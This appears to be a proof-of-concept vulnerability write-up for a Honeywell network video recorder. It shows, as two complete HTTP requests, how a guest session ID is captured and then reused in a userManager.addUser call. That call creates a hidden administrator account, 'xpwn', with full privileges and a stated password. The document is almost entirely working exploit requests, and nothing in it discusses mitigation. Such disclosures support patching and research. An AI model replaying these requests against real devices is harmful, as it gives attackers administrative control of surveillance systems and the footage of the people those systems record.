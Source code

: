 # Honeywell_NVR_vul


### First, attain the SessionID for a guest user.
We can find the SessionID from any http requests. Such as:  


POST https://192.168.1.104/RPC2 HTTP/1.1  
Accept: text/javascript, text/html, application/xml, text/xml, */*  
X-Requested-With: XMLHttpRequest  
X-Request: JSON  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Referer: https://192.168.1.104/  
Accept-Language: zh-cn  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko  
Host: 192.168.1.104  
Content-Length: 84  
DNT: 1  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DHLangCookie30=%2Fweb_lang%2FEnglish.txt; DhWebSnapPath=C%3A%5CPictureDownload%5C; DhWebRecordPath=C%3A%5CRecordDownload%5C; DhWebClientSessionID=113826814; DhWebCookie=%7B%22username%22%3A%22guest%22%2C%22talktype%22%3A%221%22%2C%22loginid%22%3A633443784%7D

{"method":"global.keepAlive","params":{"timeout": 300},"session":113826814,"id":112}  

"session":113826814 is the SessionID for the current guest user.


### Second, create the admin user.
send the special http request with above mentioned SessionID:
POST https://192.168.1.104/RPC2 HTTP/1.1  
x-requested-with: XMLHttpRequest  
Accept-Language: zh-cn  
Accept: text/javascript, text/html, application/xml, text/xml, */*  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)  
Host: 192.168.1.104  
Content-Length: 759  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DhWebClientSessionID= 113826814

{"method":"userManager.addUser","params":{"user":{"Id":3,"Group":"admin","Name":"xpwn","Password":"DD75DAB01878D84C963128764AB24DD3","Memo":"","Sharable":false,"AuthorityList":["Account","GeneralConf","OutputConfig","TVSet","ComConf","PtzConfig","AutoMaintain","bkConfig","OfflineLoginedUser","DefaultConfig","SysUpdate","MPTZ","Sysinfo","QueryLog","Alarm","Record","Backup","RecordConf","MHardisk","DataFormat","AlarmConf","VideoConfig","NetConf","RemoteDevice","EncodeConf","DelLog","ShutDown","Replay_01","Replay_02","Replay_03","Replay_04","Replay_05","Replay_06","Replay_07","Replay_08","Monitor_01","Monitor_02","Monitor_03","Monitor_04","Monitor_05","Monitor_06","Monitor_07","Monitor_08","Monitor","Replay","CtrPanel"]}},"session": 113826814,"id":271}

"session": 113826814 is the SessionID we get from the first step.


Now, the admin account with name: xpwn and password:Pwd@12345 is created. We can log in to the device with this account.

